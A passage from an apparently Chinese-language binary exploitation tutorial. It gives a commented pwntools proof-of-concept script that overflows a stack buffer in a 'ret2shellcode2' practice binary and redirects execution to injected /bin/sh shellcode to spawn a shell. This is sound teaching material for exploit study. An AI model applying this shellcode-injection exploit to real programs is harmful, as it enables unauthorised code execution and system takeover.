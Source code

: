 ![image-20241215162549209](pwn二进制漏洞/image-20241215162549209.png)	

```python
于是可以开始写poc.py验证漏洞

from pwn import *  # 导入 pwntools 库，专门用于漏洞利用
# 设置上下文信息，指定目标程序的架构和操作系统
context(arch="i386", os="linux")
# 启动目标程序 "./ret2shellcode2"
p = process("./ret2shellcode2")
# 生成 Shellcode，利用 pwntools 提供的 shellcraft 模块生成一个 `/bin/sh` 的 Shellcode
shellcode = asm(shellcraft.sh())
# 构造 Payload：
# 1. `ljust(112, b'A')` 填充到 112 字节（覆盖缓冲区到返回地址的距离）。
# 2. `p32(0x804a080)` 设置返回地址为 0x804a080，这个地址是写入 Shellcode 的位置。
payload = shellcode.ljust(112, b'A') + p32(0x804a080)
# 发送 Payload 到目标程序的输入
p.sendline(payload)
# 进入交互模式，获取程序交互界面（如 Shell）
p.interactive()
```
